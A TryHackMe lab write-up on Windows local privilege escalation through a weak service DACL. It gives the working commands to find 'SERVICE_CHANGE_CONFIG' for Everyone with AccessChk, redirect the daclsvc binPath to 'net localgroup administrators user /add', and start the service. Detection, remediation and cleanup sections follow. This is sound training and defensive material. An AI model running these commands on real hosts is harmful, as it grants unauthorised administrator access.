



# Service Escalation - binPath

> **Platform:** TryHackMe  
> **Room:** Windows PrivEsc Arena  
> **Task:** 7  
> **Operating System:** Windows 7 Professional  
> **Technique:** Service `binPath` Modification  
> **Initial Context:** Standard local user  
> **Result:** Local user added to the Administrators group  
> **MITRE ATT&CK:** T1543.003 — Windows Service  
> **CWE:** CWE-732 — Incorrect Permission Assignment for Critical Resource  

## Disclaimer

This write-up documents an authorised TryHackMe training environment.

The technique was performed only against an intentionally vulnerable laboratory host. Credentials, flags, target addresses, and sensitive values have been removed or sanitised.

## Executive Summary

The Windows host contained a service named:

```text
daclsvc
```

The service permissions were inspected with Microsoft Sysinternals AccessChk.

The results showed that the broad `Everyone` security principal had several rights over the service, including:

```text
SERVICE_CHANGE_CONFIG
SERVICE_START
SERVICE_STOP
```

The critical permission was:

```text
SERVICE_CHANGE_CONFIG
```

This permission allowed the low-privileged user to modify the service configuration, including its `binPath`.

The service `binPath` was changed from its legitimate executable to the following command:

```cmd
net localgroup administrators user /add
```

When the service was started, the Service Control Manager executed the configured command under the service account’s security context.

The command successfully added the local `user` account to the Administrators group.

The service returned Error 1053 because `net.exe` is a command-line utility rather than a valid Windows service executable. However, the privileged command had already executed successfully.

## Attack Path

```text
Inspect the daclsvc service permissions
                    ↓
Identify SERVICE_CHANGE_CONFIG for Everyone
                    ↓
Confirm that the service can also be started
                    ↓
Modify the service binPath
                    ↓
Set binPath to a privileged account-management command
                    ↓
Confirm user is not initially an Administrator
                    ↓
Start daclsvc
                    ↓
Service Control Manager executes the modified binPath
                    ↓
The command runs under the service account
                    ↓
user is added to the Administrators group
                    ↓
The service returns Error 1053
```

# 1. Understanding the Service binPath

Windows services are managed by the Service Control Manager.

Every service has configuration properties that determine how it operates.

Important properties include:

| Property | Purpose |
|---|---|
| Service name | Internal name used by Windows |
| Display name | Human-readable service name |
| `binPath` | Executable or command launched when the service starts |
| Service account | Security identity used to launch the service |
| Start type | Defines when the service starts |
| Dependencies | Other services required by the service |

The security-sensitive property in this task was:

```text
binPath
```

The `binPath` value controls what the Service Control Manager launches when the service starts.

A normal service might use a value such as:

```text
C:\Program Files\Application\service.exe
```

If a low-privileged user can change this value, the service can be redirected to another executable or command.

The vulnerable trust relationship becomes:

```text
Low-privileged user controls binPath
                    ↓
Service Control Manager trusts the configured command
                    ↓
The command runs under the service account
                    ↓
Attacker-controlled activity receives elevated privileges
```

# 2. Understanding Service DACL Permissions

A Windows service has its own security descriptor.

The security descriptor contains a Discretionary Access Control List, or DACL.

The DACL specifies which users and groups can perform operations against the service.

Relevant service permissions include:

| Permission | Purpose |
|---|---|
| `SERVICE_QUERY_STATUS` | View the service state |
| `SERVICE_QUERY_CONFIG` | Read the service configuration |
| `SERVICE_START` | Start the service |
| `SERVICE_STOP` | Stop the service |
| `SERVICE_CHANGE_CONFIG` | Modify the service configuration |
| `READ_CONTROL` | Read the security descriptor |
| `SERVICE_ALL_ACCESS` | Receive all service-management rights |

The dangerous permission in this task was:

```text
SERVICE_CHANGE_CONFIG
```

A standard user should not normally receive this permission over a privileged service.

# 3. Detecting the Weak Service Permissions

The service permissions were inspected using:

```cmd
C:\Users\user\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
```



The relevant output included:

```text
RW Everyone
    SERVICE_QUERY_STATUS
    SERVICE_QUERY_CONFIG
    SERVICE_CHANGE_CONFIG
    SERVICE_INTERROGATE
    SERVICE_ENUMERATE_DEPENDENTS
    SERVICE_START
    SERVICE_STOP
    READ_CONTROL
```

## Command explanation

```text
accesschk64.exe
```

Runs the 64-bit Microsoft Sysinternals AccessChk utility.

```text
-w
```

Displays objects for which write-related access exists.

```text
-u
```

Suppresses errors.

```text
-v
```

Displays detailed access rights.

```text
-c
```

Treats the target object as a Windows service.

```text
daclsvc
```

Specifies the service being inspected.

# 4. Interpreting the Result

The output showed the following expected entries:

```text
NT AUTHORITY\SYSTEM
    SERVICE_ALL_ACCESS
```

```text
BUILTIN\Administrators
    SERVICE_ALL_ACCESS
```

SYSTEM and local administrators normally require extensive service-management rights.

The dangerous entry was:

```text
Everyone
    SERVICE_CHANGE_CONFIG
```

The `Everyone` security principal covered the logged-on standard user in this laboratory.

The user therefore received the ability to modify the `daclsvc` service configuration.

The service also granted:

```text
SERVICE_START
```

This allowed the same user to trigger the modified configuration immediately.

The exploitable combination was:

```text
SERVICE_CHANGE_CONFIG
        +
SERVICE_START
        +
Privileged service account
```

# 5. Recording the Original Configuration

Before changing a service, its original configuration should be recorded.

The following command can be used:

```cmd
sc qc daclsvc
```

Important values include:

```text
BINARY_PATH_NAME
SERVICE_START_NAME
START_TYPE
```

`BINARY_PATH_NAME` shows the current `binPath`.

`SERVICE_START_NAME` identifies the account under which the service runs.

Recording the original configuration is important for:

1. Confirming the service’s privilege level
2. Understanding the potential impact
3. Restoring the service after testing

# 6. Modifying the Service binPath

The service configuration was changed with:

```cmd
sc config daclsvc binpath= "net localgroup administrators user /add"
```

Windows returned:

```text
[SC] ChangeServiceConfig SUCCESS
```



## Command explanation

```cmd
sc
```

Runs the Windows Service Controller utility.

```cmd
config
```

Requests a service-configuration change.

```text
daclsvc
```

Specifies the target service.

```cmd
binpath=
```

Selects the service binary-path property.

The equal sign is part of the option name.

A space is required between:

```text
binpath=
```

and the new value.

```cmd
"net localgroup administrators user /add"
```

becomes the command executed when the service starts.

## Payload command explanation

```cmd
net
```

Runs the Windows network and account-management utility.

```cmd
localgroup
```

Selects local group management.

```cmd
administrators
```

Specifies the local Administrators group.

```cmd
user
```

Specifies the account being modified.

```cmd
/add
```

Adds the account to the selected group.

The complete operation was:

```text
Add the local account user to the local Administrators group
```

# 7. Confirming the Initial Privilege State

Before starting the modified service, Administrators membership was checked:

```cmd
net localgroup administrators
```

The initial output contained:

```text
Administrator
TCM
```

The account:

```text
user
```

was not present.

This confirmed that changing the `binPath` did not immediately execute the command.

The service still had to be started.

# 8. Starting the Modified Service

The service was started using:

```cmd
sc start daclsvc
```

The Service Control Manager read the modified `binPath` and launched:

```cmd
net localgroup administrators user /add
```

The service start returned:

```text
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```



# 9. Why Error 1053 Appeared

Error 1053 did not mean that the configured command failed to execute.

It meant that the launched program did not behave as a valid Windows service.

A proper Windows service normally implements components such as:

| Component | Purpose |
|---|---|
| `StartServiceCtrlDispatcher` | Connects the process to the Service Control Manager |
| `ServiceMain` | Provides the main service entry point |
| Service control handler | Receives service-control requests |
| `SetServiceStatus` | Reports service-state changes |

The configured program was:

```text
net.exe
```

`net.exe` is a normal command-line utility.

It does not implement the Windows Service API or establish a service-control dispatcher connection.

The internal sequence was:

```text
Service Control Manager launches net.exe
                    ↓
net.exe executes the localgroup command
                    ↓
The Administrators group is modified
                    ↓
net.exe exits
                    ↓
No valid service dispatcher connects
                    ↓
Service Control Manager returns Error 1053
```

The command succeeded even though the process failed to behave as a service.

# 10. Verifying the Privilege Escalation

Administrators membership was checked again:

```cmd
net localgroup administrators
```

The final output included:

```text
Administrator
TCM
user
```

The appearance of:

```text
user
```

confirmed that the modified `binPath` executed with sufficient privileges to change local group membership.

The privilege transition was:

```text
Standard local user
        ↓
Member of the local Administrators group
```

The current Windows session may continue using the access token created before the membership change.

The user should normally log off and log back on so that Windows creates a new token containing the updated Administrators membership.

# 11. What Happened Behind the Scenes

The complete execution flow was:

```text
AccessChk reads the daclsvc security descriptor
                    ↓
Everyone has SERVICE_CHANGE_CONFIG
                    ↓
Everyone also has SERVICE_START
                    ↓
The user runs sc config
                    ↓
The Service Control Manager accepts the request
                    ↓
The service binPath is changed
                    ↓
The user starts daclsvc
                    ↓
The Service Control Manager launches the configured command
                    ↓
The command inherits the service account’s security context
                    ↓
user is added to the Administrators group
                    ↓
The process exits without acting as a valid service
                    ↓
The Service Control Manager reports Error 1053
```

The central vulnerability was:

> A standard user could modify the `binPath` of a privileged service and trigger the modified configuration.

# 12. Difference From Other Service Escalation Tasks

Several tasks in this room abuse Windows services, but they target different security objects.

| Task | Vulnerable Object | Exploitation Method |
|---:|---|---|
| 3 | Service Registry key | Modify the Registry `ImagePath` |
| 4 | Service executable | Replace the binary stored on disk |
| 6 | DLL search path | Plant a missing DLL |
| 7 | Service object DACL | Modify the service `binPath` through `sc config` |

In this task:

1. The executable file did not need to be writable.
2. The Registry key did not need to be edited manually.
3. The service DACL authorised the configuration change.
4. The Service Control Manager performed the modification.

# 13. Conditions Required for Exploitation

Successful exploitation required:

| Requirement | Laboratory condition |
|---|---|
| A Windows service existed | `daclsvc` |
| The user could change its configuration | `SERVICE_CHANGE_CONFIG` |
| The user could start it | `SERVICE_START` |
| The service ran with higher privilege | Confirmed by the group modification |
| The configured command was valid | `net localgroup ... /add` |
| The target user existed | Local account `user` |
| Security controls did not block execution | The command completed |

If the service ran under the same low-privileged account, the command would not normally have permission to modify the Administrators group.

# 14. Security Classification

| Classification | Value |
|---|---|
| Vulnerability | Service Escalation through `binPath` Modification |
| Root cause | Weak service DACL |
| Attack type | Windows service configuration abuse |
| Impact | Local privilege escalation |
| MITRE ATT&CK | T1543.003 — Windows Service |
| CWE | CWE-732 — Incorrect Permission Assignment for Critical Resource |

# 15. Detection Opportunities

Defenders should monitor service permissions, configuration changes, service starts, and privileged group modifications.

Useful detection opportunities include:

1. Detecting `sc.exe config` executed by a standard user
2. Monitoring unexpected service `binPath` modifications
3. Monitoring service configuration changes
4. Detecting services launching unusual command lines
5. Detecting `net localgroup administrators ... /add`
6. Monitoring local Administrators membership changes
7. Reviewing services that grant `SERVICE_CHANGE_CONFIG` to broad groups
8. Detecting Error 1053 after a suspicious service configuration change
9. Monitoring service-related Registry changes
10. Comparing service configurations against an approved baseline

A suspicious sequence would be:

```text
Standard user executes sc config
                    ↓
Service binPath changes
                    ↓
Service is started
                    ↓
Service launches a non-service command
                    ↓
Administrators membership changes
                    ↓
Service returns Error 1053
```

# 16. Remediation

The service DACL should follow the principle of least privilege.

A secure permission model should generally resemble:

| Principal | Recommended access |
|---|---|
| `NT AUTHORITY\SYSTEM` | Full service control |
| `BUILTIN\Administrators` | Full service control |
| Standard users | Query-only access when required |
| `Everyone` | No configuration-changing rights |

The following rights should not be granted broadly:

```text
SERVICE_CHANGE_CONFIG
WRITE_DAC
WRITE_OWNER
SERVICE_ALL_ACCESS
```

Recommended remediation actions include:

1. Remove `SERVICE_CHANGE_CONFIG` from `Everyone`
2. Remove unnecessary `SERVICE_START` and `SERVICE_STOP` permissions
3. Restore the legitimate service `binPath`
4. Review all third-party service DACLs
5. Monitor service configuration changes
6. Audit local Administrators membership
7. Apply least-privilege service permissions
8. Maintain an approved service-configuration baseline
9. Alert when services launch command interpreters or account-management utilities
10. Investigate services that repeatedly return Error 1053

Correcting the service executable permissions alone would not fix this vulnerability.

The weak permission existed on the service object itself.

# 17. Restoration and Cleanup

The original service configuration should first be identified:

```cmd
sc qc daclsvc
```

The legitimate `binPath` can then be restored:

```cmd
sc config daclsvc binpath= "<ORIGINAL_BINARY_PATH>"
```

The original path should be obtained from the recorded configuration rather than guessed.

The unauthorised group membership can be removed using:

```cmd
net localgroup administrators user /delete
```

In a disposable TryHackMe environment, resetting or terminating the machine also restores the intended state.

# 18. Lessons Learned

A complete Windows service review must inspect more than the executable file.

Important areas include:

| Security object | Assessment question |
|---|---|
| Service DACL | Who can change or start the service? |
| Registry key | Who can modify service configuration values? |
| Executable file | Who can overwrite the binary? |
| Parent directory | Who can replace or create files? |
| Service account | Which security context launches the process? |
| Trigger permissions | Can the current user start or restart it? |

The critical combination in this task was:

```text
SERVICE_CHANGE_CONFIG
        +
SERVICE_START
        +
Privileged service account
```

The central lesson is:

> A privileged service is vulnerable when a standard user can modify its `binPath` and trigger the modified service.

## Tools Used

| Tool | Purpose |
|---|---|
| AccessChk | Inspect service object permissions |
| `sc config` | Modify the service `binPath` |
| `sc start` | Trigger the modified service |
| `net localgroup` | Verify Administrators membership |

## Evidence Summary

| Screenshot | Finding |
|---:|---|
| 01 | `Everyone` had `SERVICE_CHANGE_CONFIG` and `SERVICE_START` |
| 02 | The `binPath` was modified while `user` was not initially an Administrator |
| 03 | Starting the service returned Error 1053, but `user` was added to Administrators |

## References

Microsoft Sysinternals AccessChk documentation

Microsoft Learn documentation for `sc.exe config`

Microsoft Learn documentation for Windows service programs

MITRE ATT&CK T1543.003 — Windows Service

CWE-732 — Incorrect Permission Assignment for Critical Resource
